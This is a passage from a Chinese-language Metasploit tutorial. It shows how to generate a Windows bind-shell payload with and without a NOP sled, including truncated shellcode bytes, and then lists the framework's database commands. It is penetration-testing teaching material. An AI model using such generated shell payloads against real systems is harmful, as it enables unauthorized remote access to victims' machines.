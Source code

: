 
##### 使用 NOP Sled 生成攻击载荷

NOP指空操作或下一个操作，NOP Sled可以使用参数 ```-s NOP次数``` 加入。每个NOP占用1个字节。

例如不加NOP指令的载荷是：

```shell
msf  payload(shell_bind_tcp) > generate
# windows/shell_bind_tcp - 341 bytes
# http://www.metasploit.com
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52" +
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26" +
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d" +
...snip...
```

加了nop指令的载荷是：

```shell
msf  payload(shell_bind_tcp) > generate -s 14
# windows/shell_bind_tcp - 355 bytes
# http://www.metasploit.com
# NOP gen: x86/opty2
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xb9\xd5\x15\x9f\x90\x04\xf8\x96\x24\x34\x1c\x98\x14\x4a" +
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52" +
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26" +
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d" +
...snip...
```



### Metasploit 的数据库

执行渗透测试时，经常会跟踪目标，收集信息。使用一个数据库来存储信息将非常有用并节省时间。Metasploit 内建支持 PostgreSQL 数据库系统。

使用 ```help database``` 命令，可以查看命令列表：

```shell
msf > help database

Database Backend Commands
=========================

    Command           Description
    -------           -----------
    db_connect        Connect to an existing database
    db_disconnect     Disconnect from the current database instance
    db_export         Export a file containing the contents of the database
    db_import         Import a scan result file (filetype will be auto-detected)
    db_nmap           Executes nmap and records the output automatically
    db_rebuild_cache  Rebuilds the database-stored module cache
    db_status         Show the current database status
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces

msf > hosts

```